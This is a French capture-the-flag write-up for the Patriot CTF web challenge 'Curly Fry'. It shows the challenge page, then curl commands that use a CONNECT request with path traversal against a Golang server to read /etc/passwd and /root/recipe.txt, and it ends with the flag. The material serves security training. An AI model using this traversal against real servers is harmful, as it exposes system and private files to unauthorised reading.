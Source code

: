 # Patriot CTF

## Web

### Curly Fry

**Difficulté :** Facile

**Enoncé :** Qui a besoin de Flask quand vous avez Golang -- la nouvelle méta pour les applications web.

Jetez un coup d'oeil à ce site web super élégant et fonctionnel.

***

A la connexion sur cette URL, on tombe sur la page **index.hmtl** avec le code source suivant :

```html
<html>
  <head>
    <title>Curly Fry</title>
  </head>
  <body>
    <h2>I will release my secret curly fry recipe when I am ready. For now it is safely held in my /root directory</h2>
  </body>
</html>
```

On se doute donc qu'il faut accéder à un fichier dans le répertoire **/root**.

Il existe un exploit qui permet d'accéder à des ressources non-autorisées grâce à une requête CONNECT sur des serveurs web en Golang.

J'essaye dans un premier temps d'accéder au fichier **/etc/passwd** via curl : 

```
curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../..
/etc/passwd
```

Via la requête, j'accède bien au fichier souhaité :

![image](https://user-images.githubusercontent.com/49941629/166076146-30bb3dff-12a2-4c41-b867-73f19eb2b62b.png)

Ceci dit, impossible d'exécuter une commande pour lister le contenu du répertoire /root.

Après relecture ducode source HTML, je découvre l'existence du fichier recipe.txt. 

Je relance donc ma commande curl avec le chemin complet et je récupère le contenu : 

```
curl --path-as-is -X CONNECT chal2.pctf.competitivecyber.club:49515/../../../root/recipe.txt
```

![image](https://user-images.githubusercontent.com/49941629/166076128-1acaa89b-ad4e-4c55-900e-5062165d01f0.png)

FLAG : PCTF{tru5t_m3_im_4_ch3f}
